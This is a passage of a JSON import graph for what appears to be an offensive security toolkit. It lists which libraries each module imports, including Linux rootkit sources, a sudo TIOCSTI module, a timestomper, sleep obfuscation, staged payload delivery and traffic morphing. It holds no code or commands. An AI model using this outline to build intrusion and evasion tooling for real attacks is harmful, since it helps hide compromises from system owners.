"imports", "source": "modules/rootkit/mrhyde.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "dirent.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "sys/stat.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "dlfcn.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "pwd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "errno.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "fcntl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "signal.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "sys/wait.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "wchar.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde.c", "target": "locale.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde2.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde2.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde2.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde2.c", "target": "dirent.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde2.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde2.c", "target": "sys/stat.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde2.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde2.c", "target": "dlfcn.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde2.c", "target": "pwd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde2.c", "target": "errno.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde2.c", "target": "fcntl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde2.c", "target": "signal.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde2.c", "target": "sys/wait.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "dirent.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "sys/stat.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "dlfcn.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "pwd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "errno.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "fcntl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "signal.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "sys/wait.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "pthread.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "sys/socket.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "netinet/in.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "arpa/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "sys/syscall.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "linux/io_uring.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "sys/mman.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "linux/limits.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/mrhyde3.c", "target": "poll.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/init.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/module.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/kprobes.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/dirent.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/uaccess.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/fs.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/syscalls.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/net.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/in.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "net/sock.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/tcp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/sched.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/fdtable.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/file.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/crypto.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/scatterlist.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "crypto/hash.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "linux/kconfig.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "asm/msr.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/rootkit/rootkit.c", "target": "asm/special_insns.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/saas_attacks.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/saas_attacks.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/saas_attacks.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/saas_attacks.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/search.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/search.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/search.py", "target": "bs4"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/security_sanitizers.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/security_sanitizers.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/security_sanitizers.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/security_sanitizers.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/security_sanitizers.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/security_sanitizers.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/security_sanitizers.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/selfupdate.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/selfupdate.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/selfupdate.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/selfupdate.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/selfupdate.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/selfupdate.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_cleanup.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_cleanup.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_cleanup.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_cleanup.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_cleanup.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_cleanup.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_cleanup.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_cleanup.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "chromadb"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "chromadb.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "pandas"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_rag.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_reader.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_reader.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_reader.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_reader.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_reader.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_reader.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_reader.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_reader.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_reader.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_state.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_state.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_state.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_state.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/session_state.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sidequestion.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sidequestion.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sidequestion.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sidequestion.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sidequestion.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sidequestion.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sleep_obfuscation.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sleep_obfuscation.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sleep_obfuscation.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sleep_obfuscation.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sleep_obfuscation.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/socks_proxy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/socks_proxy.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/socks_proxy.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/socks_proxy.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/socks_proxy.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/socks_proxy.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/socks_proxy.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/socks_proxy.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/socks_proxy.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/socks_proxy.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/socks_proxy.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/staged_delivery.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/staged_delivery.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/staged_delivery.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/staged_delivery.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/staged_delivery.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/staged_delivery.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/staged_delivery.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/state_manager.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/state_manager.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/state_manager.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/state_manager.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/state_manager.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/state_manager.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/state_manager.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/state_manager.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/state_manager.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/state_manager.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/state_manager.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/state_manager.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sudo_tiocsti.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sudo_tiocsti.py", "target": "fcntl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sudo_tiocsti.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sudo_tiocsti.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sudo_tiocsti.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sudo_tiocsti.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sudo_tiocsti.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/sudo_tiocsti.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/surface_ops.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/surface_ops.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/surface_ops.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/surface_ops.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tel.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tel.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tel.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tel.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tel.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tel.py", "target": "Crypto.Cipher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/test_lazyencoder_decoder.py", "target": "lazyencoder_decoder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/threat_model.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/threat_model.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/threat_model.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/threat_model.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/threat_model.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/threat_model.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/threat_model.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/threat_model.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/threat_model.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/threat_model.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/timeline_narrator.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/timeline_narrator.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/timeline_narrator.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/timeline_narrator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/timeline_narrator.py", "target": "ai_fallback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/timestomper.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/timestomper.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/timestomper.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/timestomper.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/timestomper.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/timestomper.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/loop_smoke.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/loop_smoke.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/loop_smoke.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/loop_smoke.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/loop_smoke.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/loop_smoke.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/loop_smoke.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/loop_smoke.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/loop_smoke.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/loop_smoke.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/loop_smoke.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/loop_smoke.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/monitor_smoke.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/monitor_smoke.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/monitor_smoke.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/monitor_smoke.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/monitor_smoke.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/monitor_smoke.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/tools/monitor_smoke.py", "target": "cli.lazy_monitor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toolset.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toolset.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toolset.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "torch"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "torch.nn.functional"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "torch"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/toposwarm_bridge.py", "target": "torch.nn.functional"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_morpher.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_morpher.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_morpher.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_morpher.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_morpher.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_morpher.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_morpher.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_morpher.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_recorder.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_recorder.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_recorder.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_recorder.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_recorder.py", "target": "sqlite3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_recorder.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_recorder.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_recorder.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_recorder.py", "target": "zipfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_recorder.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/traffic_recorder.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ttp_coverage.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ttp_coverage.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ttp_coverage.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ttp_coverage.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ttp_coverage.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ttp_coverage.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ttp_coverage.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "fcntl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "pty"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "select"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/unified_bridge.py", "target": "termios"}, {"confidence": "EXTRACTED", "relation": "imports", "source": 